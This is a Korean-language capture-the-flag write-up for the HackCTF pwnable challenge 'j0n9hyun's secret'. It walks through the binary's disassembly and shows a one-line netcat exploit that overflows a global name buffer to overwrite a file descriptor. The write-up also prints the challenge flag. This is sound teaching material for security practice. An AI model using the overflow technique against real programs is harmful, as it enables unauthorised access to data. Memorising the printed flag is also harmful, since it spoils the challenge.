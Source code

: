 # j0n9hyun's secret

---

이번 바이너리 파일은 정적 라이브러리를 사용하며 안티디버깅 되어있다. 우선 보호기법은 다음과 같다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

gdb로 분석해보니 놀랍도록 간단한 프로그램이었다. 다음을 보자.

```assembly
push    rbp
mov     rbp, rsp
sub     rsp, 10h
mov     rax, cs:off_6CA748
mov     ecx, 0
mov     edx, 2
mov     esi, 0
mov     rdi, rax
call    setvbuf_40FDD0
mov     rax, cs:off_6CA740
mov     ecx, 0
mov     edx, 2
mov     esi, 0
mov     rdi, rax
call    setvbuf_40FDD0
mov     rax, cs:off_6CA738
mov     ecx, 0
mov     edx, 2
mov     esi, 0
mov     rdi, rax
call    setvbuf_40FDD0
mov     esi, 72h ; 'r'
mov     edi, offset aTopSecret ; "top_secret"
mov     eax, 0
call    fopen_43F670
mov     cs:fp_6CCE98, eax
mov     edi, offset aInputName ; "input name: "
mov     eax, 0
call    printf_40F3D0
mov     esi, offset name_6CCD60
mov     edi, offset aS  ; "%s"
mov     eax, 0
call    scanf_40F500
mov     eax, cs:fp_6CCE98
mov     edx, 12Ch
mov     esi, offset unk_6CCD6A
mov     edi, eax
call    read_43F6D0
mov     [rbp+var_4], eax
mov     eax, [rbp+var_4]
cdqe
mov     rdx, rax
mov     esi, offset unk_6CCD6A
mov     edi, 1
call    write_43F730
mov     eax, 0
leave
retn
```

`main()`의 코드를 보면 name을 입력받은 후, top_secret이라는 파일에 적힌 내용을 buffer에 옮겨 담아 출력하는 코드다. 이때 top_secret을 가리키는 fp를 4에서 3으로 고치기만 하면 된다. buffer의 주소인 0x6ccd60과 fp의 주소인 0x6cce98사이의 거리는 312이므로 다음과 같이 flag를 얻을 수 있다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/32.j0n9hyun's_secret$ (python -c "print 'A'*312+'\x03'";cat) | nc ctf.j0n9hyun.xyz 3031
input name: HackCTF{ez_fd_0v4rwr1t4}
```

**flag: HackCTF{ez_fd_0v4rwr1t4}**
